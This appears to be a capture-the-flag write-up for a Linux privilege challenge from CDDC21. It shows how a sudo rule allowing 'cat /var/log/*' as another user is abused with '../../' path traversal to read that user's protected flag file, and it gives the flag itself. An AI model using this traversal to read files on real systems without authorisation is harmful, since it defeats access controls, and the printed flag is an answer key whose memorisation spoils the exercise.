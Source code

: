 # Linux 5 – Super

## Challenge Description
This bot doesn’t look so important, it seems like he can do nothing… figure out how you can move on to the next user.

## Note
The Linux challenges are consecutive, starting from [part 1](../1%20-%20Lock%20and%20Key).

---
## Solution
First, we must log in to `bot5`, using the previous flag as the password, and then change directory to `bot5`'s home directory:
```
bot3@cybot01:~$ su bot5
Password: 
bot5@cybot01:/home/bot4$ cd ~
```

In the home directory, there is `flag.txt`. However, it is owned by `bot6`, and only `bot6` is allowed to read the file:

```
bot5@cybot01:~$ ls -la
total 24
dr-xr-x---  2 root bot5 4096 Jun 18 09:51 .
drwxr-xr-x 10 root bot5 4096 Jun 18 09:51 ..
lrwxrwxrwx  1 root root    9 Jun 18 09:51 .bash_history -> /dev/null
-rwx------  1 root bot5    1 Jun 23 11:08 .bash_logout
-rwx------  1 root bot5  647 Jun 23 11:31 .bashrc
-rwxrwxrwx  1 root bot5   24 Jun 24 08:37 .profile
-r--------  1 bot6 root   22 Jun 18 09:51 flag.txt
```

Dang, this bot is almost as useless as I am. Luckily, we can use `sudo` to run things as other users.
```
$ sudo -u <username> <command>
```

To see what we can do, we can use `sudo -ll`. The `-l` switch lists the current user's privileges, and `-ll` does the same but in a longer format.

```
bot5@cybot01:~$ sudo -ll
Matching Defaults entries for bot5 on cybot01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bot5 may run the following commands on cybot01:

Sudoers entry:
    RunAsUsers: bot6
    RunAsGroups: bot6
    Options: !authenticate
    Commands:
	/usr/bin/cat /var/log/*
```

We can see that we can run `/usr/bin/cat /var/log/*` as `bot6`.

Luckily for us, since they used a wildcard `*`, we can traverse the directories from `/var/log/` to reach our flag file:
```
bot5@cybot01:~$ sudo -u bot6 /usr/bin/cat /var/log/../../home/bot5/flag.txt 
CDDC21{b3w4r3sud03rz}
```

(Thanks a bunch to my teammate [@ThinkerPal](https://github.com/ThinkerPal/) who pointed out the `/../../` thing!)

### Flag:
```
CDDC21{b3w4r3sud03rz}
```

[< Part 4](../4%20-%20Line%20Inspection) | [Part 6 (by @ThinkerPal)](https://github.com/ThinkerPal/CTF-Writeups/tree/master/2021-02-CDDC/Linux%20Rules%20the%20World/6%20-%20Path%20to%20Win)
